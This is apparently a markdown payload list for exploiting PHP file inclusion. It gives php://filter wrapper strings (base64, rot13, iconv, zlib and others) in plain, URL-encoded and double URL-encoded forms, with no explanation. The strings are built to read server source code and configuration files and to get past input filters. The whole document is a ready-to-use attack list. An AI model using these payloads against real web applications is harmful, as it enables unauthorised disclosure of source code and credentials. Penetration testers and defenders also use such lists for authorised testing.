 ## payload for phpFilter Normal:

    php://filter/convert.iconv.utf-8.utf-16le/resource=
    php://filter/read=string.toupper|string.rot13|string.tolower/resource=
    php://filter/string.toupper/string.rot13/string.tolower/resource=
    php://filter/string.strip_tags/resource=
    php://filter/convert.base64-decode/resource=
    php://filter/convert.base64-encode/resource=
    php://filter/convert.base64-encode|convert.base64-decode/resource=
    php://filter/convert.quoted-printable-encode/resource=
    php://filter/zlib.deflate/convert.base64-encode/resource=

.....................................................................

## payload for phpFilter Url Encode:

    php%3a%2f%2ffilter%2fconvert%2eiconv%2eutf-8%2eutf-16le%2fresource%3d
    php%3a%2f%2ffilter%2fread%3dstring.toupper%7cstring%2erot13%7cstring%2etolower%2fresource%3d
    php%3a%2f%2ffilter%2fstring%2etoupper%2fstring%2erot13%2fstring%2etolower%2fresource%3d
    php%3a%2f%2ffilter%2fstring%2estrip_tags%2fresource%3d
    php%3a%2f%2ffilter%2fconvert%2ebase64-decode%2fresource%3d
    php%3a%2f%2ffilter%2fconvert%2ebase64-encode%2fresource%3d
    php%3a%2f%2ffilter%2fconvert%2ebase64-encode%7cconvert%2ebase64-decode%2fresource%3d
    php%3a%2f%2ffilter%2fconvert%2equoted-printable-encode%2fresource%3d
    php%3a%2f%2ffilter%2fzlib%2edeflate%2fconvert%2ebase64-encode%2fresource%3d

......................................................................

## payload for phpFilter double Url Encode:

    php%253A%252F%252Ffilter%252Fconvert%252eiconv%252eutf-8%252eutf-16le%252Fresource%253D
    php%253A%252F%252Ffilter%252Fread%253Dstring%252etoupper%257Cstring%252erot13%257Cstring%252etolower%252Fresource%253D
    php%253A%252F%252Ffilter%252Fstring%252etoupper%2Fstring%252erot13%2Fstring%252etolower%252Fresource%253D
    php%253A%252F%252Ffilter%252Fstring%252estrip_tags%252Fresource%253D
    php%253A%252F%252Ffilter%252Fconvert%252ebase64-decode%252Fresource%253D
    php%253A%252F%252Ffilter%252Fconvert%252ebase64-encode%252Fresource%253D
    php%253A%252F%252Ffilter%252Fconvert%252ebase64-encode%7Cconvert%252ebase64-decode%252Fresource%253D
    php%253A%252F%252Ffilter%252Fconvert%252equoted-printable-encode%252Fresource%253D
    php%253A%252F%252Ffilter%252Fzlib%252edeflate%252Fconvert%252ebase64-encode%252Fresource%253D
